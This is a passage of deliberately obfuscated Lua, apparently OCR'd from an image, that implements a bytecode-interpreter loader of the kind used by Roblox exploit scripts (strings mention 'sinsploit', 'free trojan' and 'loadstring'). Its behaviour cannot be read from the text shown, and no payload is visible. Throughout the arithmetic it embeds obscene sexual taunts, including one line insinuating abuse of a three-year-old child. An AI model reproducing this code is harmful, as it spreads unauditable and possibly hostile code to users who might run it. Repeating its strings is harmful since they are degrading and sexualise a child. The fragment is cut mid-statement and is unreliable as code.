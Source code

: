 return'';end;end;i=L(H,o,o+e-_);o=o+e;local e=''for n=a,#i do e=E(e,v((y(L(i,n,n))+d)%r))d=(d+f)%l end return e;end}local function H(...)return{...},j('#',...)end local function W()local x={};local k={};local e={};local b={x,k,nil,e};local o={}local u=(66+-#{",";(function()return{','}end)();1;45;",";94})local l={[(196/0x62)]=(function(e)return not(#e==n[((1029/0x93)+-#"tonka")]())end),[(0x29-37)]=(function(e)return n[(-#[[sinsploit]]+(700/0x32))]()end),[(-72+0x4b)]=(function(e)return n[(-101+0x6b)]()end),[(42-0x2a)]=(function(e)local o=n[(-0x74+122)]()local n=''local e=1 for d=1,#o do e=(e+u)%r n=E(n,v((y(o:sub(d,d))+e)%l))end return n end)};for e=a,n[(0x7c/124)]()do k[e-a]=W();end;local e=n[(-0x1c+29)]()for d=1,e do local e=n[(0x1ca/229)]();local n;local e=l[e%(0x1f18/199)];o[d]=e and e({});end;for l=1,n[((0x519/45)+-#[[IPIPEH I WANNA FUCK WITH YOU]])]()do local e=n[(0x5f-93)]();if(n[(0x298/166)](e,_,a)==p)then local r=n[(-0x17+27)](e,i,N);local d=n[(-#[[free trojan]]+(0x71+-98))](e,B,i+B);local e={n[(0x6f/37)](),n[(53-0x32)](),nil,nil};local t={[((-0x70+(0x138a/41))+-#[[loadstring]])]=function()e[t]=n[(0xea/78)]();e[F]=n[(537/0xb3)]();end,[(-#"loadstring"+(0x41-(-86+0x8c)))]=function()e[t]=n[(-43+0x2c)]();end,[(50+-0x30)]=function()e[O]=n[(165/0xa5)]()-(i^m)end,[(297/0x63)]=function()e[O]=n[(19-0x12)]()-(i^m)e[F]=n[(((182+-0x5b)-0x48)+-#"iPipeh is Winner")]();end};t[r]();if(n[(-78+0x52)](d,a,_)==a)then e[s]=o[e[c]]end if(n[(0x45-65)](d,i,i)==_)then e[O]=o[e[h]]end if(n[(((-0x5b+1075)+-#"BluntMan420 Was Here")/0xf1)](d,N,N)==a)then e[g]=o[e[C]]end x[l]=e;end end;b[3]=n[((178+-0x58)+-0x58)]();return b;end;local function D(n,B,f)local m=n[i];local o=n[N];local l=n[_];return(function(...)local n=o;local o=_ o*=-1 local N=o;local d=_;local r=l;local y=H local l=j('#',...)-a;local p={};local o={};local H={...};local m=m;local W={};for e=0,l do if(e>=n)then W[e-n]=H[e+a];else o[e]=H[e+_];end;end;local n=l-n+_ local n;local l;while true do n=r[d];l=n[(99-0x62)];e=(5648104)while(0x9b-119)>=l do e-= e e=(9495668)while l<=(120-0x67)do e-= e e=(10343349)while(0x700/224)>=l do e-= e e=(7797100)while(0x6d-106)>=l do e-= e e=(3498725)while l<=(70-0x45)do e-= e e=(1150088)while(0x7a+-122)<l do e-= e if not o[n[s]]then d=d+a;else d=n[t];end;break end while(e)/((-#[[no thanks]]+(371550/0x96)))==466 do do return end;break end;break;end while 1745==(e)/(((4068-0x802)+-#'big hard cock'))do e=(1167080)while l>(0x8e/71)do e-= e f[n[b]]=o[n[P]];break end while 1432==(e)/(((410849-0x3229d)/0xfc))do local e={o,n};e[a][e[i][k]]=e[_][e[i][A]]+e[a][e[i][t]];break end;break;end break;end while 2575==(e)/((0x821c/11))do e=(2015440)while(0x6f-(-53+0x9f))>=l do e-= e e=(4263408)while l>(-0x2b+47)do e-= e local e=n[x];local _=o[e+2];local l=o[e]+_;o[e]=l;if(_>0)then if(l<=o[e+1])then d=n[b];o[e+3]=l;end elseif(l>=o[e+1])then d=n[b];o[e+3]=l;end break end while 2224==(e)/(((-#"big black sins"+(116999+-0x30))/0x3d))do o[n[k]]();break end;break;end while 610==(e)/((0xb4b00/224))do e=(2368736)while((-115+0x80)+-#[[require]])>=l do e-= e o[n[c]]={};break;end while(e)/((-0x7d+1389))==1874 do e=(1417803)while l>(103-0x60)do e-= e local d=n[x];local e=o[n[h]];o[d+1]=e;o[d]=e[n[C]];break end while(e)/((0xb4c/4))==1961 do o[n[x]]=o[n[t]][o[n[S]]];break end;break;end break;end break;end break;end while 4077==(e)/(((0x1426-2601)+-#"Hard Sex with iPipeh"))do e=(288144)while l<=(0x624/131)do e-= e e=(411440)while(0x89-127)>=l do e-= e e=(1419708)while(1539/0xab)<l do e-= e f[n[h]]=o[n[u]];break end while(e)/(((128535/0xa5)+-#[[Hi skid]]))==1839 do o[n[x]]={};break end;break;end while 1480==(e)/((19738/0x47))do e=(9615840)while(0x5cd/135)<l do e-= e if(o[n[x]]~=o[n[I]])then d=d+a;else d=n[b];end;break end while 2680==(e)/(((7303-0xe7a)+-#"pinkerton"))do if(o[n[s]]~=o[n[g]])then d=d+a;else d=n[U];end;break end;break;end break;end while 1104==(e)/((-0x65+362))do e=(4186544)while l<=(0x460/80)do e-= e e=(2119000)while l>(0x60-83)do e-= e if(o[n[x]]==o[n[C]])then d=d+a;else d=n[h];end;break end while(e)/(((-#'Candyman was here'+(-0x71+28))+3352))==652 do f[n[U]]=o[n[c]];d=d+_;n=r[d];o[n[P]]={};d=d+_;n=r[d];o[n[c]]={};d=d+_;n=r[d];f[n[U]]=o[n[k]];d=d+_;n=r[d];o[n[x]]=f[n[O]];d=d+_;n=r[d];if(o[n[x]]==n[C])then d=d+a;else d=n[h];end;break end;break;end while(e)/((-0x24+1159))==3728 do e=(2013536)while l<=((((419-0x103)+-#[[fish was here]])-0x7c)+-#[[cum fuck]])do e-= e d=n[h];break;end while(e)/((0x5f4-812))==2828 do e=(896292)while(121+-0x69)<l do e-= e local _=m[n[h]];local l;local e={};l=T({},{__index=function(o,n)local e=e[n];return e[1][e[2]];end,__newindex=function(d,n,o)local e=e[n]e[1][e[2]]=o;end;});for l=1,n[S]do d=d+a;local n=r[d];if n[(0x15/21)]==27 then e[l-1]={o,n[b]};else e[l-1]={B,n[t]};end;p[#p+1]=e;end;o[n[x]]=D(_,l,f);break end while(e)/(((-100+0x2b8)+-#'Candyman was here'))==1548 do local w;local l;local b;local e;o[n[u]]=f[n[U]];d=d+_;n=r[d];o[n[c]]=o[n[h]][n[A]];d=d+_;n=r[d];e=n[c];b=o[n[O]];o[e+1]=b;o[e]=b[n[S]];d=d+_;n=r[d];o[n[s]]=o[n[t]];d=d+_;n=r[d];o[n[c]]=o[n[h]];d=d+_;n=r[d];e=n[u]o[e]=o[e](M(o,e+_,n[t]))d=d+_;n=r[d];e=n[s];b=o[n[U]];o[e+1]=b;o[e]=b[n[A]];d=d+_;n=r[d];e=n[c]o[e]=o[e](o[e+a])d=d+_;n=r[d];l={o,n};l[a][l[i][c]]=l[_][l[i][I]]+l[a][l[i][t]];d=d+_;n=r[d];o[n[k]]=o[n[t]]%n[I];d=d+_;n=r[d];e=n[x]o[e]=o[e](o[e+a])d=d+_;n=r[d];b=n[h];w=o[b]for e=b+1,n[S]do w=w..o[e];end;o[n[u]]=w;d=d+_;n=r[d];l={o,n};l[a][l[i][c]]=l[_][l[i][A]]+l[a][l[i][h]];d=d+_;n=r[d];o[n[k]]=o[n[U]]%n[g];break end;break;end break;end break;end break;end break;end while 3458==(e)/((-#'looadstring'+(2858+-0x65)))do e=(578210)while l<=((4200/0x46)+-#"mee6 what are you doing to my wife")do e-= e e=(2447317)while l<=((198-0x9e)+-#'dont use it anymore')do e-= e e=(10738750)while(0x7a-103)>=l do e-= e e=(9524624)while l>((0x3600/216)+-#[[edp445 what are you doing to my 3 year old son]])do e-= e if(o[n[x]]==n[g])then d=d+a;else d=n[t];end;break end while